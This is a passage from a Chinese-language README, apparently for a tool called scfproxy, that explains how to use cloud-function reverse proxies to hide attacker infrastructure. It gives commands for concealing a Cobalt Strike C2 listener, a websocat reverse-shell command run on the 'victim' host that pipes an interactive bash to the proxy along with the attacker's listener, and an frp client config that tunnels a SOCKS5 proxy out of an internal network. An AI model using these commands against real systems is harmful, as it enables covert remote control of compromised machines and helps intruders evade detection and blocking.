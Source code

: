 基于反向代理可有如下使用方法，

#### C2 隐藏

以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```

![cs.png](img/cs.png)

#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：

```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：
![reverse_shell.png](img/reverse_shell.png)

#### 内网穿透地址隐藏

该使用场景需要支持 websocket 协议的内网穿透软件。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 为例，客户端配置：

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```
